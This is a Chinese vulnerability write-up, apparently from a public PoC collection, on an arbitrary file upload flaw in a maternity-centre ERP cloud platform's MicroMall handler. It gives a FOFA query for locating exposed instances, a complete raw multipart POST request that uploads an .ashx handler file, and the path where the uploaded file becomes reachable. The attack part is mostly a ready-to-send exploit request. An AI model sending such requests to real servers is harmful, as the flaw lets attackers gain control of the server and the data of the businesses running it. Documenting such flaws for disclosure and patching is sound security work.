 # 月子会所ERP管理云平台MicroMall任意文件上传漏洞

# <font style="color:#080808;background-color:#ffffff;">一、漏洞简介</font>
<font style="color:#080808;background-color:#ffffff;">月子会ERP管理云平台是由武汉金同方科技有限公司研发团队结合行业月子中心相关企业需求开发的一套综合性管理软件，管控月子中心经营过程中各个环节。由于未对上传文件进行任何过滤，可上传任意文件，攻击者可利用该漏洞获取服务器控制权。</font>

# <font style="color:#080808;background-color:#ffffff;">二、影响版本</font>
+ <font style="color:#080808;background-color:#ffffff;">月子会所ERP管理云平台</font>

# <font style="color:#080808;background-color:#ffffff;">三、资产测绘</font>
+ fofa`product="妈妈宝盒-ERP"`
+ 登录页面

![1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab.png](./img/2A2L2yMRDv9y46Wn/1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab-592933.png)

# <font style="color:#080808;background-color:#ffffff;">四、漏洞复现</font>
```plain
POST /Page/MicroMall/ashx/Handler.ashx HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_301
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 497
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.ashx"

<% @ webhandler language="C#" class="AverageHandler" %> 
using System; 
using System.Web; 

public class AverageHandler : IHttpHandler 
{ 
    public bool IsReusable 
    { 
        get {
             return true; 
            } 
        } 
        public void ProcessRequest(HttpContext ctx) 
        { 
            ctx.Response.Write("hello"); 
        } 
    }
--00content0boundary00--

```

 ![1695624260746-8f31f546-1db6-4588-a8af-5f1c5fb8c5b7.png](./img/2A2L2yMRDv9y46Wn/1695624260746-8f31f546-1db6-4588-a8af-5f1c5fb8c5b7-201678.png)

根据回显拼接上传文件位置

```plain
/UploadBaseFolder/Supplier/2309257009803.ashx
```

![1695624304526-6dd9baf6-7830-4d28-bc2d-c85ff4095716.png](./img/2A2L2yMRDv9y46Wn/1695624304526-6dd9baf6-7830-4d28-bc2d-c85ff4095716-950463.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nh8grdm3xibcft50>